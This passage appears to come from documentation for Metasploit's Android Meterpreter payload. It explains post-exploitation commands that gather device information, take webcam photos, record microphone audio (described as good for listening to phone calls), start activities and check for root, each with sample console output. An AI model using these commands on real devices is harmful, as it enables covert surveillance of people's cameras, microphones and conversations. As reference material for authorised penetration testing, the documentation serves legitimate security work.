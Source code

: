 To get back to the Meterpreter prompt, you can do: [CTRL]+[Z]

**sysinfo**

The `sysinfo` command shows you basic information about the Android device.

```
    meterpreter > sysinfo
    Computer    : localhost
    OS          : Android 5.1.1 - Linux 3.10.61-6309174 (aarch64)
    Meterpreter : java/android
```

**webcam_list**

The `webcam_list` command shows a list of webcams you could use for the `webcam_snap`
command. Example:

```
meterpreter > webcam_list
1: Back Camera
2: Front Camera
```

**`webcam_snap`**

The `webcam_snap` command takes a picture from the device. You will have to use the
`webcam_list` command to figure out which camera to use. Example:

```
    meterpreter > webcam_snap -i 2
    [*] Starting...
    [+] Got frame
    [*] Stopped
    Webcam shot saved to: /Users/user/rapid7/msf/uFWJXeQt.jpeg
```

**`record_mic`**

The `record_mic` command records audio. Good for listening to a phone conversation, as well as
other uses. Example:

```
    meterpreter > record_mic -d 20
    [*] Starting...
    [*] Stopped
    Audio saved to: /Users/user/rapid7/msf/YAUtubCR.wav
```

**`activity_start`**

The `activity_start` command is an execute command by starting an Android activity from a URI
string.

**`check_root`**

The `check_root` command detects whether your payload is running as root or not. Example:

```
    meterpreter > check_root
    [*] Device is not rooted
```


[sdk]: http://developer.android.com/sdk/index.html#Other
[studio]: http://developer.android.com/sdk/installing/index.html?pkg=studio
[genymotion]: https://www.genymotion.com/download/
[avd]: https://github.com/dral3x/AndroidAVDRepo